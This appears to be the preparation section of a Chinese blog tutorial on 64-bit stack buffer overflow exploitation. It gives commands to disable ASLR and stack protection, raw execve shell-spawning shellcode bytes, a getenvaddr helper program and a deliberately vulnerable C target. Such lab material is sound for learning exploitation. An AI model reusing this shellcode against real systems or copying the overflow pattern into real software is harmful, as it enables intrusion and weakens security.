 ```yaml
---
title: overflow
date: 2017-11-09
tags: pwn
---
```


> this is a test, not true

## 0x00准备

- 本次实验的机器为`Ubuntu 16.04.2 LTS`64位系统

- 需要关闭ASLR，`echo 0 > /proc/sys/kernel/randomize_va_space`，如果提示权限不够，可能需要用`su`提升权限

- 用`gcc`编译需要关闭`stack-protector`，允许栈的执行权限`execstack`

- 需要`gdb` `peda` `python2`

- 需要一串`shellcode`，本次使用

  `\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05`

- 一段计算地址的c语言程序`getenvaddr`，源码在github可以找到，也可以选择下面的编译

  ```c
  #include <stdio.h>
  #include <stdlib.h>
  #include <string.h>
  int main(int argc, char *argv[]) {
  	char *ptr;
  	if (argc < 3) {
  		printf("Usage: %s <environment var> <target program name>\n", argv[0]);
  		exit(0);
  	} else {
  		ptr = getenv(argv[1]); /* Get environment variable location */
  		ptr += (strlen(argv[0]) - strlen(argv[2])) * 2; /* Adjust for program name */
  		printf("%s will be at %p\n", argv[1], ptr);
  	}
    	return 0;
  }
  ```


- 攻击目标`test.c`，自己写的很简单

  ```c
  #include<stdio.h>
  #include<unistd.h>
  int main(){
  	char buf[10];
  	read(0,buf,40);
  	puts("23333\n");
  	return 0;
  }
  ```
